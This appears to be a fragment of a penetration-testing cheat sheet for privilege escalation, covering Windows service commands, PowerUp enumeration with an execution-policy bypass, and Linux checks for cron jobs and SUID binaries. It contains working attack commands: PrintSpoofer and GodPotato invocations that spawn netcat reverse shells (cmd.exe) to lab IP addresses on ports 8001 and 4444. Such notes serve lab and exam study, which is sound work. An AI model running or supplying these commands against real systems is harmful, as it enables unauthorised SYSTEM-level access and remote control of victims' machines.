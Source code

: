 Restart a service 
```
restart-service schedule
```
Start a service
```
start-service
```

Monitor a difference in output
```
# https://raw.githubusercontent.com/markwragg/PowerShell-Watch/master/Watch/Public/Watch-Command.ps1
Get-Service | Watch-Command -Diff -Cont
```

PrintSpoofer reverse shell
```
.\PrintSpoofer64.exe -c "c:\Temp\nc.exe 192.168.45.246 8001 -e cmd"
.\PrintSpoofer64.exe -c "reverse.exe"
```

GodPotato Reverse shell
```
.\GodPotato.exe -cmd "nc.exe -e cmd.exe 192.168.45.230 4444"

.\Godpotato.exe -cmd "reverse.exe"
```

### PowerUp

```
powershell -ep bypass
powershell -c "Import-Module .\PowerUp.ps1"
Get-ModifiableServiceFile
Get-UnquotedService
```

## Linux

check running processes
```
ps aux
```

Read all the cronjobs

```
cat /etc/cron*
```

check cron logs
```
grep "CRON" /var/log/syslog
```

Find SUID binaries
```
find / -perm -u=s -type f 2>/dev/null
```
